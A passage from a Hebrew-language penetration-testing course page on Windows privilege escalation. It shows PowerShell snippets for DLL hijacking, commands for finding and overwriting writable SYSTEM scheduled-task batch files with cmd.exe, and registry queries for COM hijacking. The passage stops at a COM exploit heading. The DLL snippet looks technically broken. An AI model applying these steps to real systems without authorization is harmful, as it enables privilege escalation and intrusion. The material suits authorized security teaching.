

repository: AmitPinchasi/amittech · page: בודק-חדירות/3 - תקיפת ווינדוס/3.4 - הסלמת הרשאות בווינדוס 3/3.4 - הסלמת הרשאות בווינדוס 3/index.html · generator: mkdocs


## הexploit DLL Hijacking מתקדם

אז כמו שאמרנו קודם DLL Hijacking, מתרחש כאשר תוכנה מחפשת DLL שאינו מוגן, ואנחנו יכולים להכניס קובץ משלנו עם אותו שם כדי לגרום לו לרוץ עם הרשאות הprocess.

#### **בדיקה אם הprocess מחפש DLL חסר**

1. מפעילים את `Procmon.exe` ומחפשים `NAME NOT FOUND`
2. אם נמצא DLL שחסר בספריה שיש לנו גישה אליה, נוכל לנצל זאת.

#### **יצירת DLL זדוני עם PowerShell**

```powershell
$code = @"
using System;
using System.Runtime.InteropServices;
public class Test {
    public static void Entry() {
        System.Diagnostics.Process.Start("cmd.exe");
    }
}
"@
Add-Type -TypeDefinition $code -Language CSharp
[System.Reflection.Assembly]::Load($code).Entry()
```

#### **הנחת ה-DLL במקום הנכון**

אם למשל process `notepad.exe` מחפש `evil.dll` בתיקיית `C:\Program Files\VulnerableApp\`, נניח שם את ה-DLL הזדוני שלנו, וכאשר הprocess ירוץ, גם הקוד שלנו ירוץ.

## הexploit Scheduled Tasks עם הרשאות גבוהות

משימות מתוזמנות ב-Windows (Scheduled Tasks) מאפשרות ביצוע פקודות בזמנים קבועים (בדומה לקרונים בלינוקס). אם יש משימה שמתבצעת עם SYSTEM וניתן לשנות את התוכן שלה - אפשר לנצל זאת.

#### **בדיקת משימות מתוזמנות קיימות**

```powershell
schtasks /query /fo LIST /v
```

אם יש משימה שמריצה קובץ `.bat` או `.exe` מתיקיה עם הרשאות כתיבה, ניתן לשנות אותו.

#### **בדיקת הרשאות כתיבה על משימות מתוזמנות**

```powershell
icacls "C:\Path\To\TaskFile.bat"
```

אם יש לנו הרשאות כתיבה, נוכל להוסיף פקודה לפתיחת `cmd.exe` בבתוך קובץ הבאט:

```powershell
echo C:\Windows\System32\cmd.exe > "C:\Path\To\TaskFile.bat"
```

וכשמערכת תפעיל את המשימה - נקבל גישת SYSTEM.


## מתקפת COM Hijacking
מנגנון **Component Object Model (COM)** כמו שאמרנו בקורס ווינדוס, הוא מנגנון של Windows שמאפשר תקשורת בין תוכנות. כאשר תוכנה מחפשת אובייקט COM מסוים ב-Registry, אם נוכל לשנות את ההגדרה שלו, נוכל לגרום לתוכנה להריץ קובץ זדוני עם הרשאות גבוהות.


### **1. בדיקת אובייקטי COM פגיעים**

מתקפת COM Hijacking מתרחשת כאשר ניתן לשנות הפניות למזהי Class ID (`CLSID`) בregistry.

#### **בדיקת CLSID שניתן לשנות**

```powershell
reg query HKCU\Software\Classes\CLSID
reg query HKLM\Software\Classes\CLSID
```

אם יש לנו הרשאות כתיבה על `CLSID`, נוכל לשנות את הפניה לprocess זדוני.

### **2. הexploit COM Hijacking להפעלת קובץ זדוני**
